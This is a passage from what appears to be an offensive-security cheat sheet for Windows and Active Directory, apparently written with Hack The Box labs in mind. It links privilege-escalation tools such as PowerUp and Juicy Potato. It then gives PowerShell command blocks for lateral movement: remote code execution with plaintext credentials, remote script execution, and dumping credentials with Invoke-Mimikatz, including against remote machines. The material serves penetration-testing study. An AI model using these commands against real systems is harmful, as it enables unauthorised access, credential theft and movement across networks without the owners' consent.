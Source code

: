 - [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1)
- [BeRoot](https://github.com/AlessandroZ/BeRoot) 
- [Privesc](https://github.com/enjoiz/Privesc)
- [Juicy Potato](https://github.com/ohpe/juicy-potato)
- [Lovely Potato](https://github.com/TsukiCTF/Lovely-Potato)
- [Abusing Token Privileges](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)

## Lateral Movement

### Powershell Remoting
  ```
  #Enable Powershell Remoting on current Machine (Needs Admin Access)
  Enable-PSRemoting

  #Entering or Starting a new PSSession (Needs Admin Access)
  $sess = New-PSSession -ComputerName <Name>
  Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
  ```
### Remote Code Execution with PS Credentials
  ```
  $SecPassword = ConvertTo-SecureString '<Wtver>' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('htb.local\<WtverUser>', $SecPassword)
  Invoke-Command -ComputerName <WtverMachine> -Credential $Cred -ScriptBlock {whoami}
  ```
### Import a powershell module and execute its functions remotely
  ```
  #Execute the command and start a session
  Invoke-Command -Credential $cred -ComputerName <NameOfComputer> -FilePath c:\FilePath\file.ps1 -Session $sess 

  #Interact with the session
  Enter-PSSession -Session $sess

  ```
### Executing Remote Stateful commands
  ```
  #Create a new session
  $sess = New-PSSession -ComputerName <NameOfComputer>

  #Execute command on the session
  Invoke-Command -Session $sess -ScriptBlock {$ps = Get-Process}

  #Check the result of the command to confirm we have an interactive session
  Invoke-Command -Session $sess -ScriptBlock {$ps}
  ```
### Mimikatz & Invoke-Mimikatz
  ```
  #Dump credentials:
  Invoke-Mimikatz -DumpCreds

  #Dump credentials in remote machines:
  Invoke-Mimikatz -DumpCreds -ComputerName <ComputerName>

  #Execute classic mimikatz commands:
  Invoke-Mimikatz -Command '"sekrlusa::<ETC ETC>"'
  
  ```
- [Detailed Mimikatz Guide](https://adsecurity.org/?page_id=1821)
